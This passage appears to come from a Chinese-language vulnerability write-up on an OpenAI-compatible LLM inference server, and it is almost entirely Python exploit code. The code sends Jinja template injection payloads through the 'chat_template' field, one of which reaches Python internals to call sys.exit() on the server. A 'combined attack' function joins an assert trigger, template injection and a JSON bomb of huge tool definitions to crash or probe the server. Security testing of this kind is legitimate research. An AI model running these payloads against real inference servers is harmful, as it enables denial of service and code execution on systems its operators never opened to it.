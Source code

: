 ```python
        "{{ ''.__class__.__mro__[1].__subclasses__()[104].__init__.__globals__['sys'].exit() }}"
    ]
    
    for payload in template_payloads:
        try:
            request_data = {
                "model": "gpt-3.5-turbo",
                "messages": [{"role": "user", "content": "test"}],
                "chat_template": payload  # 恶意模板
            }
            
            response = requests.post(url, json=request_data)
            print(f"Template: {payload[:50]}...")
            print(f"Response: {response.status_code}")
            
            if response.status_code == 500:
                print(f"Error response: {response.text[:200]}...")
                
        except Exception as e:
            print(f"Error with template {payload}: {e}")
```

### 3.5 组合攻击
```python
def exploit_combined_attack():
    """组合多种攻击方法"""
    url = "http://localhost:8000/v1/chat/completions"
    
    # 组合assert触发 + 模板注入 + JSON炸弹
    payload = {
        "model": "gpt-3.5-turbo",
        "messages": [{"role": "user", "content": "{{ config }}"}],
        "logprobs": True,
        "top_logprobs": 1,
        "max_tokens": None,  # 触发assert
        "chat_template": "{{ ''.__class__.__mro__[1].__subclasses__() }}",  # 模板注入
        "tools": [{"name": "func" + "A" * 100000, "description": "test"}] * 1000,  # JSON炸弹
        "stream": True
    }
    
    try:
        response = requests.post(url, json=payload, stream=True)
        print(f"Combined attack response: {response.status_code}")
        
        # 读取流式响应
        for line in response.iter_lines():
            if line:
                line_str = line.decode('utf-8')
                if any(keyword in line_str.lower() for keyword in 
                       ['error', 'assert', 'exception', 'traceback', 'class']):
                    print(f"Potential vulnerability detected: {line_str}")
                    
    except Exception as e:
        print(f"Combined attack error: {e}")
```
